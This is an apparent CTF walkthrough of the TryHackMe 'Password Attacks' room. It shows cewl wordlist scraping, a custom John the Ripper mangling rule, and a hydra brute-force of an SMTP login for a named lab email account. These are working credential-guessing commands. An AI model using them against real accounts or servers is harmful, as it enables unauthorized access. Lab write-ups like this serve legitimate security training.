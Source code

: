 # Password Attacks

**Room Link:** [https://tryhackme.com/room/passwordattacks](https://tryhackme.com/room/passwordattacks)



## Deploy the VM

Creating a wordlist from this site as recommend in the room.

**Kali**

```
cewl -m 8 -w clinic.lst https://clinic.thmredteam.com/  
```

## Offline Attacks

**In this question, you need to generate a rule-based dictionary from the wordlist clinic.lst in the previous task. email: pittman@clinic.thmredteam.com against 10.10.131.68:25 (SMTP).**

**What is the password? Note that the password format is as follows: \[symbol]\[dictionary word]\[0-9]\[0-9].**

#### **john.conf**

```
[List.Rules:THM-Password-Attacks]
Az"[0-9][0-9]" ^[!@]
```

**Kali**

```
john --wordlist=clinic.lst --rules=THM-Password-Attacks --stdout > dict.lst
hydra -l pittman@clinic.thmredteam.com -P dict.lst smtp://10.10.131.68:25 -v
```
